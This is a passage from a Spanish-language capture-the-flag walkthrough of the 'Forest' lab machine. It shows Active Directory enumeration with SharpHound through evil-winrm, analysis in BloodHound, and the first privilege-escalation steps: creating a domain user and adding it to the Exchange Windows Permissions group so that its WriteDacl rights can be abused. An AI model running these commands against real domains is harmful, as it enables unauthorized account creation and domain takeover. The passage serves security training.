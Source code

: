     - lo lanzamos desde el evil-winrm

        ```bash
        Import-Module .\SharpHound.ps1
        Invoke-BloodHound -CollectionMethod All
        dir
        ```

    - ahora que tenemos el zip nos lo descargamos

        ```bash
        download 20210812133453_BloodHound.zip
        ```

1. Drag & Drop del fichero **.zip** hacia la ventana del bloodhound y en el Analysis tab

    - Find all Domains Admins -> Show Administrator of the domain
    

Aqui hay una via potencial (un camino) que nos permitte convertir en usuario administrador

```{r, echo = FALSE, fig.cap="Bloodhound privesc", out.width="90%"}
    knitr::include_graphics("images/Forest-bloodhound.png")
```
## Privilege Escalation {-}

### Rootear la maquina {-}

El usuario svc-alfresco es miembro del groupo service accounts que es miembro de grupo privileged accounts que es miembro 
del grupo account operators.

Este grupo account operators tiene permissions de typo Generic all sobre el grupo Exchange windows permissions. Si buscamos
por internet lo que es el account operators vemos que es un grupo de verdad que permitte crear usuarios y privilegios. Lo comprobamos
en el evil-winRM

```bash
net user s4vitar s4vit4r123$! /add /domain
net user s4vitar
```

Effectivamente podemos crear usuarios.

Si seguimos analysando el BloodHound vemos que el grupo exchange Windows permission tiene capacidad de typo WriteDacl sobre el dominio.
Si hacemos un click derecho sobre el **WriteDacl** podemos mirar mas informaciones

```{r, echo = FALSE, fig.cap="Bloodhound abuse WriteDacl", out.width="90%"}
    knitr::include_graphics("images/Forest-Abuse_writedacl.png")
```

1. Añadimos el grupo Exchange Windows Permissions al usuario creado

    ```bash
    net group
    net group "Exchange Windows Permissions" s4vitar /add
    net user s4vitar
    ```
